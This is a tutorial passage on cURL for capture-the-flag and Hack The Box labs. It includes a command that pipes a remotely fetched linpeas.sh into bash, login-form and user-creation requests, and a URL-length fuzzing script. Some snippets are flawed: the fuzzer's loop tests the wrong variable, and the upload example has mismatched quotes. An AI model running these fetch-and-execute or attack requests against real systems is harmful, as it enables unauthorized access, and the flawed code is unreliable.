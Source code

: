The proper way to upload files with CURL is to use **-F ( — form)** option, which will add **enctype=”multipart/form-data”** to the request.

```bash
curl -F ‘data=@path/to/local/file’ UPLOAD_ADDRESS`
```

## Hacking with cURL
Now that we have covered the basic syntax and use cases, here are some practical hacking applications that are very helpful on Hackthebox or CTF boxes.

#### Using cURL to pipe a remote script (linpeas.sh) directly to bash:
```Bash
$ curl -sSk "http://10.10.10.10/linpeas.sh" | bash
```

#### Attacking a Login Form with cURL
```Bash
$ curl --data "email=test@test.com&password=test" http://10.10.10.10/login.php
```

#### Creating new users with cURL
```Bash
$ curl --data "name=test&email=test@test.com&password=test" http://10.10.10.10/newuser.php
```

#### Fuzzing Web Servers with cURL
Often we performing an assessment against a webserver, we will attempt to trigger error conditions which will provide some deeper insights into the underlying processes and software. cURL can be a powerful fuzzing tool for generating these edge case error messages.

#### Fuzzing with URI length / GET parameter length limits with cURL

The following script can be used to fuzz a webserver with a long URL track the changes in output and write the output to a file.
It is meant to be a basic scaffold for you to build a fit for purpose fuzzer using cURL and Bash.
You can modify the url to either fuzz a URI or a GET parameter.

Here is the bash shell script:
```Bash
#!/bin/bash
echo "args: <URL> <Start Length #> <End Length #> <Output Filepath>"
echo "Length Lines Words Bytes Filename"
echo "---------------------------------"
for ((i = $2; x <= $3; i++))
do
        fuzz=""
        for ((x = 1; x <= $i; x++))
        do
                fuzz+="A"
        done
        #echo "COUNT: $i $fuzz"
        #echo "${1}${fuzz}"
        echo "${i}" | { tr -d '\n' ; curl "${1}${fuzz}" -o ${4} 2>/dev/null | wc ${4}; }
done
```

